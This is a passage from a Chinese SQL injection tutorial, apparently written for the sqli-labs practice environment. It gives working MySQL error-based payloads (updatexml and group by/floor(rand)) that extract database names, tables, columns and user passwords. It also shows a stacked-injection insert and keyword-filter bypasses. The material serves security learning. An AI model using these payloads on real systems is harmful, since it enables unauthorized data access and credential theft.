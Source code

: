 ```
爆其他表就可以，下面是爆emails表
123' and (updatexml(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name ='emails'),0x5c),1))#
 
1' and (updatexml (1,concat(0x5c,(select group_concat(id,email_id) from emails),0x5c),1))#   爆字段内容。
```

#### group by报错注入
```
123' and (select count(*) from information_schema.tables group by concat(database(),0x5c,floor(rand(0)*2)))#     爆数据库
123' and (select count(*) from information_schema.tables group by concat(version(),0x5c,floor(rand(0)*2)))#      爆数据库版本
 
 
1' and (select count(*) from information_schema.tables where table_schema=database() group by concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x7e,floor(rand(0)*2)))#    通过修改limit后面数字一个一个爆表
1' and (select count(*) from information_schema.tables where table_schema=database() group by concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e,floor(rand(0)*2)))#        爆出所有表
 
  
1' and (select count(*) from information_schema.columns where table_schema=database() group by concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e,floor(rand(0)*2)))#    爆出所有字段名
1' and (select count(*) from information_schema.columns group by concat(0x7e,(select group_concat(username,password) from users),0x7e,floor(rand(0)*2)))#    爆出所有字段名
 
1' and (select 1 from(select count(*) from information_schema.columns where table_schema=database() group by concat(0x7e,(select password from users where username='admin1'),0x7e,floor(rand(0)*2)))a)#    爆出该账户的密码。
 ```

 ## 绕过
 &emsp;&emsp;至此大多数的sql注入方法，还有一个堆叠注入，像是这样的用法`login_user=1&login_password=1';insert into users(id,username,password) values ('39','less30','123456')--+&mysubmit=Login`，这个简单去了解一下即可。下面是一些特殊情况的绕过。

 ### 替换绕过
 &emsp;&emsp;很常用的方法，双写穿插。
 ```
 or     --> oorr
 and    --> aandnd
 union  --> uunionnion
 select --> seselectlect
 ... ...
```
 
 ### 大小写绕过
 &emsp;&emsp;在实战中，这种方法并不常见了
 ```
 or     --> Or
 select --> SEleCt
 union  --> UniOn
 and    --> aND
```
 